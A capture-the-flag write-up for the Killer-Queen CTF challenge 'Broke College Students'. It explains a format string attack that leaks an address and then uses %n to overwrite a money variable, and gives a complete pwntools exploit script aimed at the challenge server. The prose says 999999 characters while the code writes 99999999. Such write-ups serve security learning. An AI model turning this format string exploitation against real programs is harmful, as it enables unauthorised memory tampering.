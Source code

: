 +++
title = "Killer-Queen CTF: Broke College Students"
date = "2021-10-29"
aliases = ["BrokeCollegeStudents"]
[ author ]
  name = "Lucas Sass Rósinberg"
+++

# Broke College Students

Basic idea:
Format string attack in two steps.
Step 1: leak an address, find the same offset with `objdump`, add offset of `MONEY` -- result is real address of `MONEY` in memory, which we want to override.
Step 2: Use format string to write 999999 characters followed by `%n`, allowing us to place that value in an address we specify afterwards -- so we specify the `MONEY` address to get that amount of money.
This allows us to buy the flag.

```python
from pwn import *

p = remote("143.198.184.186", 5001)
#p = process("./brokecollegestudents")

def send_string(choice):
    p.recvuntil(b": ")
    p.sendline(b"1")
    p.recv()
    p.sendline(b"1")
    p.recvuntil(b": ")
    p.recvuntil(b": ")
    p.sendline(b"1")
    p.recvuntil(b": ")
    p.sendline(choice)
    p.recvlines(2)
    return p.recvline().split(b"What")[0]


leaked_addr = int(send_string(b"%8$p")[2:], 16)
log.success(f"ADDRESS LEAK: {hex(leaked_addr)}")

addr_offset = 0x1160
base_addr = leaked_addr - addr_offset
money_offset = 0x401c
money_addr = p64(base_addr + money_offset)

send_string(f"%99999999c%8$n__".encode() + money_addr)

p.interactive()
```
